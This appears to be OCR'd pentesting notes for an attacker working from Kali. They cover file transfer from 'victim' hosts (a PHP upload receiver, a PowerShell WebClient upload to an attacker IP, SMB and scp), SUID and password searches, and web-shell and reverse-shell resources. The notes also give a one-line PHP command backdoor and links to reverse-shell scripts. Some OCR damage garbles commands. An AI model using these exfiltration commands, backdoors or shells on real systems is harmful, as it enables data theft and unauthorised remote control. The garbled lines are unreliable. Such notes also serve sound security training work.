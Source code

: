 
**Apache + Powershell
Kali:**
a: mkdir /var/www/html/uploads && chmod 755 & chown www-data
uploads && chgrp www-data uploads
b: Create a php file **upload.php
<?php
$uploaddir = '/var/www/uploads/';
$uploadfile = $uploaddir. $_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>**
c: chown www-data upload.php && chgrp www-data upload.php

**Windows** (In **powershell** )
a: $up='http://10.10.10.20/uploads/'
b: $local='C:/folder/file1'
c: $wc=New-Object System.Net.WebClient
d: $wc.UploadFile($up,$local)

**SMB**

**1: Kali as client**
a: smbclient //10.10.10.10/share, **get/put**

**2: Kali as server**
Linux: smbclient //10.10.10.20/share, **get/put**
OR **python impacket/examples/smbserver sharename /tmp**
Windows: **copy \\10.10.10.20\share\nc.exeC:/Users/Public/nc.exe**

**SCP (Credential or key needed)**
1: From Kali to victim: **scp file1 victim@10.10.10.10:/home/victim/.ssh/file**
2: From victim to Kali: **scp victim@10.10.10.10:/home/victim/file
/home/kali/file**


# File Search

**In Linux**
1: Permission: **find / -type f -perm /4000 2>/dev/null** (SUID file),
**find /etc -type f -writable 2> /dev/null (** Writeable file)
2: Name: **find / -type f -name *keyword* 2>/dev/null**
3: Content: **grep -R "password" 2>dev/null**

**In Windows**
1: By name: **dir abc.txt /s /p**




# Web Shell

2021 年 8 月 2 日 22:

**1: PHP generic
```
One-line backdoor** : <?php echo passthru($_GET['cmd']);
**Web backdoor** : https://github.com/WhiteWinterWolf/wwwolf-php-
webshell/blob/master/webshell.php
**Web backdoor2** : https://github.com/artyuum/Simple-PHP-Web-
Shell/blob/master/index.php

**2: PHP for Windows
Reverse Shell:** https://github.com/Dhayalanb/windows-php-reverse-shell
**Bind Shell:** Check **[PHP generic]**

**3: PHP for Linux
Reverse Shell:** https://github.com/pentestmonkey/php-reverse-
shell/blob/master/php-reverse-shell.php
```